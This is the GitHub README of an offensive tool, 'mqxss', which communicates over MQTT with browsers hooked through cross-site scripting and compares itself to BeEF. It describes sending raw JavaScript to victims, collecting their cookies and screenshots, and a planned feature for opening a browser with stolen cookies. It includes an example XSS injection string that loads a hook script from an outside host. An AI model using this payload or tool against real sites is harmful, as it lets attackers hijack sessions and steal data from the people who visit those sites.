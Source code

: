# mqxss


**mqxss acts as a client to communicate with hooked browsers over MQTT**

![Screenshot from 2023-07-03 00-57-22](https://github.com/grampae/mqxss/assets/36344197/72bda6c6-7e27-4269-8bc3-19d7b171a76a)



I created this without a lot of bells and whistles so that the user could send raw JS to the hooked browser.  One might even consider this to be a poor mans BEeF as no server is required, you can use a public broker (however currently uses obfuscation, encryption is in the works).

Hooked browsers will communicate in the MQTT topic on the broker you specify, there are many public/free brokers to test this with.

Currently all that is needed is to set the desired MQTT broker, port and base topic within the x.js file and then connect to the same broker with the client.  The x.js file has the Paho MQTT JS library included within it.

Then send your XSS payload to the victim while the mqxss client is running, ex: '"><script src=https://example.com/x.js></script> or something similar, if vulnerable you should get a notification saying the browser has connected with some basic details including cookies etc.  Future version will generate JS payload so that you don't have to manually set it with broker information.
 
![a](https://github.com/grampae/mqxss/assets/36344197/20096c91-2e9e-4302-b5a9-e2edd665d382)

 
**Features:**

- **Currently only works with secure websockets however future version will supports mqtts as well.**
- **view hooked browsers**
- **view past hooked (unhooked) browsers**
- **send js to currently hooked browsers and get response if available**
- **pushover notification**
- **screenshot of hooked browser**

**Todo:**

- [ ] Encryption (currently just obfuscated)
- [ ] Set user , password  for brokers that require it at runtime
- [ ] Generate js payload at runtime to hook browsers with
- [ ] Open browser with hooked browser cookies for convenience
